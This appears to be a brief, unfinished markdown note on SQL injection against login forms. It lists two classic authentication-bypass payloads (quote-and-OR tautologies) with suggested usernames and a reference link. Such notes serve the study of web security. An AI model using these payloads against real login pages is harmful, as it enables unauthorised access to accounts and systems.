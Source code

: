 # SQL Injection

## Login
[Reference][1]

Username: *admin* or *user*

```sql
anything' OR 'x'='x'
anything' OR 1='1
```

TODO

[1]: http://www.unixwiz.net/techtips/sql-injection.html

